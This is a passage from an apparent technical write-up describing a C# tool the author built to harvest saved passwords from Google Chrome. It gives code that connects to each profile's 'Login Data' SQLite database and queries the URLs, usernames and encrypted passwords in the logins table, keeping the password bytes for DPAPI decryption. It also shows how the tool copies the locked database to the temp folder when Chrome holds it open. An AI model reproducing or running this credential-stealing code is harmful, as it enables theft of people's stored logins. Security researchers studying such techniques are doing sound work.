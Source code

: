 ```cs

            }
        }
    }

    return profileDirectories;
}
```

#### 2. For each profile found, connect to the `Login Data` SQLite database and query for the three pieces of information we need

I used the [System.Data.SQLite](https://system.data.sqlite.org/index.html/doc/trunk/www/index.wiki) package to interact with the database like so:
```cs
private SQLiteConnection ChromeDatabaseConnection(string databaseFilePath)
{
    FilePath = databaseFilePath;
    SQLiteConnection sqliteConnection = new SQLiteConnection(
        $"Data Source={FilePath};" +
        $"Version=3;" +
        $"New=True");

    sqliteConnection.Open();

    return sqliteConnection;
}
```

Once I've got the SQLiteConnection object, I can query the db and extract data from the relevant columns:
```cs
SQLiteCommand sqliteCommand = sqliteConnection.CreateCommand();
sqliteCommand.CommandText = "SELECT action_url, username_value, password_value FROM logins";
SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader();

while (sqliteDataReader.Read())
{
    string formSubmitUrl = sqliteDataReader.GetString(0);

    if (string.IsNullOrEmpty(formSubmitUrl))
    {
        continue;
    }

    string username = sqliteDataReader.GetString(1);
    byte[] password = (byte[])sqliteDataReader[2]; //Cast to byteArray for DPAPI decryption
   
...
```

While building this tool I found that Chrome seems to maintain an open connection to a profile's login database whenever it is open and that profile is logged in. As a result, a `System.Data.SQLite.SQLiteException` is thrown, in which case I chose to copy the database file to `%TEMP%` to query it, then delete the temporary copy.
```cs
catch (SQLiteException)
{
    string tempDatabaseFilePath = Path.GetTempPath() + "Login Data";

    Console.ForegroundColor = ConsoleColor.Red;
    Console.WriteLine($"[-] Unable to access database file. Copying it to temporary location at:\n\t{Path.GetTempPath()}");
    Console.ResetColor();
```